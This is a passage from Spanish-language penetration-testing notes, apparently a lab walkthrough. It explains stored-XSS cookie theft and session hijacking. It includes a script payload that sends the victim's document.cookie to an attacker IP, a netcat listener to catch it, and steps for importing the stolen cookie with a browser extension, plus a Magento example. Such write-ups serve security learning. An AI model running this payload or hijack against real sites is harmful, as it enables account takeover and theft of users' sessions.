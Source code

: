 Por tanto en este punto, podríamos intentar hacer un robo de cookies, por lo que crearemos otra nota poniendo una dirección URL en la cual el usuario víctima deberá hacer click; y ahí habremos obtenido su cookie de sesión.
Lo guardamos y veremos que hay un intento de imagen cargada en la web, pero que no llega a cargar:
```
<script>img = new Image(); img.src = "http://10.10.16.10/a.php?"+document.cookie;</script>
```
![[Pasted image 20230210135959.png]]
Lo guardamos y nos pondremos en escucha con netcat por el puerto 80 para recibir esa cookie de sesión:
![[Pasted image 20230210140316.png]]
Ahora que ya tenemos la cookie de sesión, sólo tenemos que importarla dentro de nuestro navegador y ya podremos entrar en el panel de login sin proporcionar contraseña, por lo que necesitaremos una extensión del navegador que se llama cookie editor:
![[Pasted image 20230210140409.png]]
La instalamos:
![[Pasted image 20230210140431.png]]
Y ahora en la web y utilizando esta extensión, pondremos la cookie que hemos capturado:
![[Pasted image 20230210140548.png]]
Guardamos y recargamos la página y hemos iniciado sesión:
![[Pasted image 20230210141901.png]]
# EJEMPLO 2
Veremos un ejemplo de haber conseguido una cookie de sesión [[Hacking Magento]]
![[Pasted image 20230423083532.png]]
Y desde la extensión cookie editor tenemos este campo donde podemos poner una cookie de sesión:
![[Pasted image 20230423083743.png]]
Le ponemos la nueva cookie que hayamos capturado:
![[Pasted image 20230423083819.png]]
Recargamos la página y ya estamos dentro:
![[Pasted image 20230423083844.png]]

